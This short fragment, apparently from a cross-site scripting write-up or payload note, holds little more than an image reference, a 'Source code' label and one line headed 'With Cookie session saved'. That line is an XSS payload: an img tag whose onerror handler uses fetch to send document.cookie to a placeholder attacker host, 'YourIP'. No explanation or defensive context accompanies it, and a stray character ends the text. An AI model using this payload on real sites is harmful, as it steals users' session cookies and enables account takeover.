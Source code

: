 With Cookie session saved:
"<"img src=x onerror=fetch('http://YourIP/?c='+document.cookie);">"



	 z